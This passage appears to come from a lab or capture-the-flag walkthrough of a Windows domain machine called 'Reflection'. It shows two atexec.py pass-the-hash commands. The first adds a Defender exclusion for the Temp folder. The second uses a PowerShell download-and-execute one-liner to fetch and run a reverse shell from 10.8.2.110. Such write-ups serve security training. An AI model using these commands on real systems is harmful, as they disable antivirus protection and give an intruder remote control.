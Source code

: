 I used ATEXEC to add exclusion to temp folder.

`atexec.py -hashes :<..Redacted..> administrator@WS01.REFLECTION.VL 'powershell.exe -c Add-MpPreference -ExclusionPath "C:\Windows\Temp"'`

![](https://photos.squarezero.dev/file/abir-images/Reflection/26.png)

Finally, I used ATEXEC to run reverse-shell.
`atexec.py -hashes :<..Redacted..> administrator@WS01.REFLECTION.VL 'powershell.exe -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString("""http://10.8.2.110/shell.ps1""")"'`

![](https://photos.squarezero.dev/file/abir-images/Reflection/27.png)
